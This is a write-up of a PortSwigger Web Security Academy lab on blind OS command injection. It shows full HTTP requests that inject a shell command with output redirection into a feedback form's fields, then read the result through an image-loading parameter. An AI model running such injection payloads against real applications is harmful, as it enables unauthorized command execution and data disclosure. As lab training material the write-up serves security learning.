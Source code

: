 # [Lab 3: Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

---

## Description

This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

`/var/www/images/`

The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the `whoami` command and retrieve the output.

---

## Solution

Navigate to the feedback function at `/feedback`. It contains a form with four inputs: `name`, `email`, `subject`, and `message`.

![](images/Pasted%20image%2020210819183324.png)

It is unknown which of, or in what order, these arguments are passed to the shell command. Thus, inject into all four and terminate them with a comment indicator (`#`). This way, which ever argument is first will comment out all the rest.

The objective of the challenge is to execute the `whoami` command. Since the output of the command isn't in the HTTP response, redirect the output to `/var/www/images/whoami.txt`.

```http
POST /feedback/submit HTTP/1.1
Host: ac5c1ff31ec290d680c37fc9006200f0.web-security-academy.net
Cookie: session=A7qFNhDNbj6Ook4fOAC1cNg5Ctfltqtd
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
Origin: https://ac5c1ff31ec290d680c37fc9006200f0.web-security-academy.net
Dnt: 1
Referer: https://ac5c1ff31ec290d680c37fc9006200f0.web-security-academy.net/feedback
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=wnAcZp4tDvrgSYNqcJsurav2gF3XTHRj&name=;whoami+>+/var/www/images/whoami.txt;+#&email=;whoami+>+/var/www/images/whoami.txt;+#&subject=;whoami+>+/var/www/images/whoami.txt;+#&message=;whoami+>+/var/www/images/whoami.txt;+#
```

Attempt to navigate to the output file at `/var/www/images`. Notice that the photos of the products on the homepage are rendered as `img` tags whose `src` attributes are set to `/image?filename=$FILENAME`. By navigating to `/images?filename=whoami.txt`, it is possible to read the output of the command.

```http
GET /image?filename=whoami.txt HTTP/1.1
Host: ac5c1ff31ec290d680c37fc9006200f0.web-security-academy.net
Cookie: session=A7qFNhDNbj6Ook4fOAC1cNg5Ctfltqtd
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Cache-Control: max-age=0
Te: trailers
Connection: close
```

```txt
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 12

peter-jesSSz
```

The current user is `peter-jesSSz`.
